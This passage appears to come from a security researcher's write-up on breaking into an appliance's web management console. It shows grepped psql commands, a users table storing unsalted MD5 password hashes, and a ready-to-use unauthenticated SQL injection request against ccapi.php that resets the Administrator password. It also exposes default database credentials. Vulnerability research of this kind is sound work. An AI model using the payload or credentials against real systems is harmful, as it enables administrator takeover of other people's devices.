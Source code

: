```bash
rpm_install/cc.service.functions:		psql -U dashboard -d dashboard  -c "ALTER TABLE events SET WITHOUT OIDS;ALTER TABLE inspector_event SET WITHOUT OIDS;" > /dev/null
rpm_install/cc.service.functions.uninstall:		psql -U dashboard -d dashboard  -c "ALTER TABLE events SET WITHOUT OIDS;ALTER TABLE inspector_event SET WITHOUT OIDS;" > /dev/null
shell/set_timezone:POSTGRES_VERSION=`/usr/bin/psql --version | awk '{print $3}' | awk -F '.' '{print $1}'`
shell/manage_address.sh:	/usr/bin/psql -q -t -p 17023 -U postgres dashboard -c "INSERT INTO configuration_network (id, dns_server) SELECT 16, '$_ADDRESS' WHERE NOT EXISTS (SELECT id FROM configuration_network WHERE id = 16);"
shell/manage_address.sh:	/usr/bin/psql -q -t -p 17023 -U postgres dashboard -c "UPDATE configuration_network SET dns_server = '$_ADDRESS' WHERE id = 16 AND dns_server='';"
shell/manage_address.sh:	_fp_storage=`/usr/bin/psql -q -t -p 17023 -U postgres dashboard -c "SELECT dbhost FROM scan_config_fpstorage;" | head -1 | sed -e "s/[\"\' \t]//g"`
shell/manage_address.sh:		/usr/bin/psql -q -t -p 17023 -U postgres dashboard -c "UPDATE scan_config_fpstorage SET dbhost='$_ADDRESS';"
shell/manage_address.sh:		_ADDRESS=`/usr/bin/psql -q -t -p 17023 -U postgres "dashboard" -c "SELECT dns_server FROM configuration_network WHERE id = 16;" | sed '/^$/d' | sed -e "s/[\"\' \t]//g"`
shell/manage_address.sh:	echo "Address in the database = "`/usr/bin/psql -q -t -p 17023 -U postgres "dashboard" -c "SELECT dns_server FROM configuration_network WHERE id = 16;" | sed '/^$/d' | sed -e "s/[\"\' \t]//g"`
src/AppBundle/Service/Backup.php:        exec('/usr/bin/psql -p 17023 -U postgres postgres -c "CREATE DATABASE ' . $this->postgresDB . ' WITH OWNER = dashboard;" 2>&1', $output, $return_var);
src/AppBundle/Service/Backup.php:            '/usr/bin/psql -p 17023 -U postgres postgres -d dashboard -c "DELETE FROM agents WHERE is_installed=true" 2>&1',
src/AppBundle/Service/Backup.php:        exec('/usr/bin/psql -p 17023 -U postgres postgres -c "ALTER USER ' . $this->postgresDB . ' WITH PASSWORD \'dashboard\'" 2>&1', $output, $return_var);
src/AppBundle/Service/Backup.php:        exec('/usr/bin/psql -p 17023 -U postgres postgres -c "ALTER USER ' . $this->postgresDB . ' WITH PASSWORD \'dashboard\'" 2>&1', $output, $return_var);
```
Then:
```bash
/usr/bin/psql -q -t -p 17023 -U postgres dashboard
```

We can see there is a `passwd` column **;P**:
```sql
user_id                     | integer                     |              | not null | nextval('users_seq'::regclass)
 login                       | character varying(255)      |              | not null | 
 passwd                      | character varying(50)       |              |          | 
 email                       | character varying(255)      |              |          | 
 name                        | character varying(255)      |              | 
//...
```
We can see the the password is stored in a format that is hypertensive-friendly because it does not use salt. This hash is just the md5 of `password@@@`.
```sql
dashboard=# select user_id,passwd,email from users;
       1 | fcbde5e75de51ada20eb0594587db6cf | demo@gttb.com
```
Quick recap: in 10 minutes after the jailbreak I found a unauthenticated SQL injection that can be used to replace the `Administrator` password to a known value. The exploit is simple as:
```http
/ccapi.php?action=setTermsHash&userId=1&hash=pwned',passwd%3d'[MD5 of the password you want to use]
```
<figure>
<img src="/gtbcc-pwned/admin.jpeg" alt="Logged as Administrator"> 
<figcaption>
Administrator take-over!
</figcaption>
</figure>
# 3rd movement: Oda to Command Injections